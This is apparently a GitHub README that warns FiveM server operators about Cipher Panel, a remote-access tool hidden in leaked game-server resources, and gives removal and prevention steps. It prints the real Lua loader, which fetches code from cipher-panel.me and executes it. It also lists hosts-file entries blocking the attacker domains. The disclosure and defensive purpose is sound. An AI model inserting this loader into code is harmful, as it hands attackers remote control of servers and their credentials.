 # Cipher Panel
Cipher is a paid Remote Execution/Administration Tool (RAT). Cipher's customers generate 4 lines of Lua code to inject into resources (many of them obfuscate the code) which will download remote code from the Cipher servers. We've found many leaked resources are infected with Cipher-Panel. This repository will talk more about how Cipher works.



# How Cipher Works
Cipher works by releasing infected code/resources to the FiveM public. Server owners/developers take the code (that they don't know is infected) and install it on their servers. Once the resource is installed and ran it will inject its code into other previously clean resources.

The initial infected code boils down to the following:

```Lua
PerformHttpRequest('https://Cipher-panel.me/_i/i?to=UNIQUECODE', function (e, d)
	local s = assert(load(d))
	if (d == nil) then return end 
	s() 
end)
```

The Unique Code in the URL request is the Cipher user that now has control of your server. Once this code is run it downloads the remote code (from Cipher) and runs it on line 4 as a function.

This is the basis on how most of Cipher works. It proceeds to download several more requests (found in the code returned by Cipher) and will continue until it injects more pre-existing resources.

After the code is run, it will upload some javascript and override existing files within the system builders directory. 

`resources\[system]\[builders]` 

The code will start propagating itself within all of your resources and files within the FiveM server installation to make it difficult to remove.

At this stage, its armageddon and all files within the server are compromised meaning files can be downloaded, uploaded, edited and viewed, including but not limited to just the server.cfg, sql credentials or even steal your cfx license keys. They’re also able to run remote code on the server which leads to the last step.

Cipher is a rat that has the capability of gaining full system administrator access to take over the host machine it's run on. It does this by using powershell to download a rat executable and also add / alter users to provide remote desktop access to your server. This back door approach also supports linux too. 

Cipher customers have been seen attempting to extort servers for money paid in crypto currency in exchange to deter the user of Cipher from deleting the server entirely. 

Read Infection Documentation for more information on what it expands into.



# How To Remove Cipher

If you have been infected with Cipher, this is what you must do:

Disconnect from the internet your server and access it via KVM (if possible).

Blacklist their domains on your firewall. This will slow them down however we have seen instances where they will use proxies to evade this but on most leaks this will help.

Edit the hosts file `C://windows/system32/drivers/etc/hosts` and add.

```
0.0.0.0 cipher-panel.me 
0.0.0.0 ciphercheats.com
0.0.0.0 dark-utilities.xyz
```

Install an antivirus software on the host machine to scan for any backdoors / RATs. 

Check the system admins on the machine to verify that no unauthorized accounts exist.

Change any passwords you have on the host machine to ensure that they don’t have access.

While your FiveM server is turned off, use the provided Python script to install a nullifier which will help prevent future infections of Cipher and tell you what files are infected. 
 
You can also install this code manually however we expect Cipher will attempt to patch this.

scheduler.lua


**Make sure you do not run your FiveM server as ROOT (Linux) or Administrator (Windows)**



# Other things you can do to prevent being attacked by Cipher

Consider adding the [Warden](https://discord.com/invite/jeFeDRasfs) to your discord server. Warden is a great resource that can help remove cheaters and leakers (people who participate in sharing leaked paid resources) from your community or support hack products like Cipher. 

Make sure to install the latest updates of whatever framework you are using for 

[ESX](https://github.com/esx-framework/esx-legacy) | [ESX Discord](https://discord.esx-framework.org)

[QBCore](https://github.com/qbcore-framework/qb-core) | [QBCore Discord](https://discord.gg/qbcore) 

Consider investing in a good anticheat for your server like [Phoenix Anticheat](https://discord.com/invite/pac) or [FiveEye](https://dsc.gg/FiveEye) or any other anti-cheat that you feel comfortable using. (Currently we are working with multiple anticheat providers to patch Cipher. The progress made will be shown here.) 

Buy resources from only reputable places that you feel comfortable purchasing from either Tebex listed stores or from places like [Modit](https://modit.store/), if you're unsure about a store, perhaps ask for guidance on the warden discord. 

Be extremely sketchy on code you get that is encrypted or downloaded from shady sources.

Lastly, the most important thing… DON'T USE LEAKED RESOURCES!


## Cipher Customers

If you are a customer of Cipher, we suggest canceling your subscriptions and getting a refund.
